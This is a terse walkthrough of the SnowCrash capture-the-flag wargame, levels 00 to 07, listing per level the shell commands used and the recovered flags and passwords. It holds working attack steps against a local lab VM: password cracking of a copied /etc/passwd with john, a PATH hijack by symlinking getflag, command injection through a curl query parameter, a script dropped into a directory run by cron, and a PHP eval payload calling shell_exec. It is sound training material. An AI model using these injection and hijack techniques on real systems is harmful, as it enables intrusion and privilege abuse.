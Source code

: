 
Image: `/sgoinfre/goinfre/ISO/SnowCrash.iso`  

## Level00

`ssh -l level00 -p <port> 127.0.0.1`  
```
find / -user flag00 2>/dev/null
strings /usr/sbin/john
```
-> multi decoder  

`ssh -l flag00 -p <port> 127.0.0.1`
```
getflag
```

> `level00`
> `nottoohardhere`

## Level01

```
docker run --rm -it debian:latest
apt-get update && apt-get -y install john
cat <<_EOF > /root/passwd.txt
<paste content of /etc/passwd file>
_EOF
```

> `x24ti5gi3x0ol2eh4esiuxias`
> `abcdefg`

## Level02

```
scp -P <port> level02@127.0.0.1:~/level02.pcap /tmp
chmod u+r /tmp/level02.pcap
```
-> wireshark -> follow TCP stream  

> `f2av5il02puano7naaf6adaaf`
> `ft_waNDReL0L`

## Level03

```
strings ~/level03
PATH=/tmp:$PATH
ln -s /bin/getflag /tmp/echo
~/level03
```

> `kooda2puivaav1idi4f57q8iq`

## Level04

```
cat ~/level04.pl
curl --get --data-urlencode 'x=a;getflag' localhost:4747
```

> `qi0maab88jeaj46qoumi7maus`

## Level05

```
cat /var/mail/level05
cat <<_EOF > /opt/openarenaserver/level05.sh
#!/bin/sh
getflag >/tmp/flag.txt 2>&1
_EOF
watch -n 1 cat /tmp/flag.txt
```
> `ne2searoevaevoem4ov4ar8ap`

## Level06

```
php --version
```
[PHP - Documentation for PHP 5](https://www.php.net/manual/php5.php)  
[PHP 5 - PCRE Patterns - Pattern Modifiers - eval](https://php-legacy-docs.zend.com/manual/php5/en/reference.pcre.pattern.modifiers#reference.pcre.pattern.modifiers.eval)  
[PHP 5 - Process Control Extensions - System program execution](https://php-legacy-docs.zend.com/manual/php5/en/book.exec)  
```
cat <<_EOF >/tmp/level06.txt
[x {\${shell_exec(\$z)}}]
_EOF
~/level06 /tmp/level06.txt getflag
```

> `viuaaale9huek52boumoomioc`

## Level07

> `wiok45aaoguiboiki2tuin6ub`


